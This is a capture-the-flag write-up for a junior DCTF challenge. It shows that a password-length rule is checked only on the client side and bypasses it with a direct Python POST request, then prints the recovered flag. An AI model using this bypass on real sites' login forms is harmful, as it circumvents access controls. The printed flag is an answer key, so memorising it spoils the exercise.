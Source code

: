 #PasswordPolicy
### (Junior - 1pts)
> Can you guess this extreme password?

> Target: [https://password-policy.dctfq18.def.camp/](password-policy.dctfq18.def.camp.html)
------

On checking link's page-source there is an internal JavaScript

It checks the value in input of Password for length to be greater then 1337

And, the form which contains the inputs is making a post call to the same page itself

Hence, appropiate first step seems to be sending a post call with lesser length to check whether is it just client side validation or is there any on server
```
$python
>> import requests
>> requests.post('https://password-policy.dctfq18.def.camp/', data={ 'user':'admin@leftover.dctf', 'pass':'password'}).text
u'DCTF{db95ace20ae3972f87d758a3724142ae93735c442a8482f9717fe4a9bb94d337}'
```
After sending above data we receive our flag there itself

------
Flag: DCTF{db95ace20ae3972f87d758a3724142ae93735c442a8482f9717fe4a9bb94d337}
